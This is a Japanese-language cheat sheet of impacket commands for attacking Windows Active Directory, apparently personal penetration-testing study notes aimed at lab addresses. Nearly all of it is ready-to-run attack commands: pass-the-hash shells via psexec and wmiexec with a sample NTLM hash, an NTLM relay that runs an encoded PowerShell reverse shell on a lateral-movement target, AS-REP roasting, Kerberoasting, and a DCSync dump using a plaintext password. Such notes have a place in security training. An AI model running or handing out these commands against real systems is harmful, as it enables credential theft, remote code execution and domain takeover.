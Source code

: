 # impacket

## コマンド集

1. PtHを使って管理者権限のシェルを取る。この時、NTLMハッシュの形式は**LMハッシュ:NTハッシュ**の形式になっている。  
NTLMハッシュのみを使用する場合は、LMハッシュ部分は0で埋めておく。
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

2. wmiexecを使ってPtWを行う
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
``

3. Net-NTLMv2 relay攻撃を行うため、中継元のWindows端末からdirなどでSMB接続をこの端末にさせ、コマンドを192.168.201.212という横展開先に送り付ける。  
これで、192.168.201.212上でPowerShellのリバースシェルコマンドを実行してシェルを取れる。-encの後ろはb64
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.201.212 -c "powershell -enc JABjAGwAaQBlAG..."
```

4. AS-REP Roastingの攻撃をADに対して実行する。ここで出力されたユーザ名はKerberos preauthenticationが無効になっていることを示し、AS-REQ Roasting攻撃に脆弱な可能性があることを示す。  
-dc-ip => DCのIPアドレスを指定  
-outputfile => AS-REPハッシュがhashcatの形式で保存される出力ファイルの名前を入力する。  
-request => TGTを要求する  
domain/user => 認証のターゲットにするユーザとドメイン名
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

5. Kerberoastingを実行するために、TGSを取得してhashcatで解析できる形でサービスチケットのハッシュを出力する。
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

6. DCSYNC攻撃をkaliからターゲットのwindowsに対して実行する。  
-just-dc-userの引数にターゲットのユーザ名daveを、dcsyncする際に要求を送る側には権限が必要なので、その権限を持つユーザをcorp.com/jeffadminとしてる。  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```